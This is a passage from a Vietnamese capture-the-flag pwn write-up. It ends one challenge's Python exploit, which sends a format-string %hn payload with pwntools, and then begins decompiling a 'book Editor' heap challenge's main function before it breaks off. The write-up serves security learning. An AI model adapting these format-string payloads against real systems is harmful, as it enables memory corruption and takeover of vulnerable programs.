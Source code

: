 ```c
    }
order = sorted(package)
payload = f'%{order[0]}c%11$hn'.encode()
payload += f'%{order[1] - order[0]}c%12$hn'.encode()
payload = payload.ljust(33,b'a')
payload += flat(
    package[order[0]],
    package[order[1]],
    )
p.send(payload)
p.send(b'a')
p.interactive()
```python

- vì tỉ lệ khá cao nên mình không cần viết script brute_force 

![image](https://hackmd.io/_uploads/S1vtxdzDJl.png)

```

-----------

## book Editor 

### REVERSE 
checksec : 

![image](https://hackmd.io/_uploads/SklOnimD1l.png)



- ở bài này ta thấy có 2 option chính , đầu tiên ta sẽ được nhập 1 size và chương trình sẽ sử dụng size đó để ```malloc``` , tiếp theo ta được nhập dữ liệu vào ```book```



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+8h] [rbp-8h]
  int Choice; // [rsp+Ch] [rbp-4h]

  setup(argc, argv, envp);
  printf("How long will your book be: ");
  __isoc99_scanf("%ld", &bookSize);
  book = malloc(bookSize);
  printf("Contents of the book: ");
  read(0, book, bookSize);
  v4 = 1;
  while ( v4 )
  {
    menu();
    Choice = getChoice();
    if ( Choice == 3 )
    {
      v4 = 0;
    }
    else
    {
      if ( Choice > 3 )
        goto LABEL_10;
      if ( Choice == 1 )
      {
        editBook();
      }
```